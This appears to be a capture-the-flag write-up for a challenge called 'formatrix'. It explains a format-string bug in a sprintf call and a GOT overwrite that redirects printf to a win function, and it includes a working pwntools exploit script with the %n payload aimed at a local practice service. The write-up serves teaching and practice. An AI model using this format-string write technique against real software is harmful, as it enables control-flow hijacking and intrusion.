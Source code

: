 ==============================================
==============================================

formatrix
===========================

General overview of problems faced
-------------------------------------
- Had to learn about GOT and PLT table
- Had to do a full write using 4 addresses to find a way around the 1024 buffer size

List of vulnerabilities
--------------------
1. sprintf takes a buffer input without a format string therefore a user can provide a format string and exploit the vulnerability

Steps to exploit the format string
------------------
1. Get the win function address from the binary and the printf_got_address
2. Send the following input: printf_got_address + (printf_got_address + 1) + (printf_got_address + 2) + (printf_got_address + 3) + '%226x%3$n%159x%4$n%115x%5$n%260x%6$n'

Script/Command used
------------------
``` python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

def main():
    address = "localhost"
    port = 7002

    payload = ""

    offset = 12

    r = remote( address, port )

    to_overwrite = 0x804B4BC

    resp = r.recvrepeat(0.2)
    payload += p32( to_overwrite )
    payload += p32( to_overwrite + 1 )
    payload += p32( to_overwrite + 2 )
    payload += p32( to_overwrite + 3 )
    payload += '%226x%3$n%159x%4$n%115x%5$n%260x%6$n'

    r.sendline( payload )

    resp = r.recvrepeat(0.2)
    print resp

if __name__ == '__main__':
    main()

```
